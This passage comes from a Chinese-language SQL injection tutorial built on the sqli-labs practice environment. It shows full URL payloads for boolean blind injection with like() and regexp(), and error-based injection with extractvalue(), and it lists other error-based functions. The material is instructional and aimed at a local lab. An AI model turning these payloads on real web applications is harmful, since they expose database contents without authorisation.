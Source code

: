 like()

这里用了 like 去匹配用户名中包含 root 的账号，判断为 true 页面返回正常

```bash
http://10.211.55.27/Less-8/?id=1%27%20and%20(select%20user()%20like%20%27ro%%27)--+
```

![image-20220601150732048.png](assets/1706846040-86a5f2fa0d6417018b06d8caca054295.png)

regexp() 和 like() 有点相似，他是用的正则表达式的用法

```bash
http://10.211.55.27/Less-8/?id=1%27%20and%20(select%20user()%20regexp%20%27ro*%27)--+
```

![image-20220601151003528.png](assets/1706846040-1c439e8dc7281be555d6235bd0d3a4b6.png)

还有一种是 order by 的盲注，可以通过 order by rand(True 或 False) 的顺序判断。

#### 报错注入

报错注入就是通过我们自己构造的错误语句，使查询的结果能通过错误信息的回显反馈给我们，但是报错注入的前提可以没有像联合查询那种显示位，但是必须要有一个 SQL 报错回显的位置。

这里列举一下常见的报错注入用到的函数：floor()、extractvalue()、updatexml()、geometrycollection()、multipoint()、polygon()、multipolygon()、linestring()、multilinestring()、exp()

extractvalue() 是从目标 XML 中返回包含所查询值的字符串，extractvalue() 函数包含了两个参数 xml\_document 和 xpath\_string。xml\_document 是一个 String 类型的 xml 文档对象名称，xpath\_string 就是 xpath 格式的。

xml 文档中如果查找字符串不是/xx/xx/这种格式那么就会报错，并且返回报错内容。报错的格式为：XPATH syntax error: 'xxxxxxx'

这里用测试环境看一下效果，database() 可以替换成其他语句

```bash
http://10.211.55.27/Less-1/?id=1%27%20and%20extractvalue(1,concat(0x7e,database()))%20--+
```

![image-20220601165608477.png](assets/1706846040-f33843e4ac9fdd2e22b47cef06b1b9c2.png)
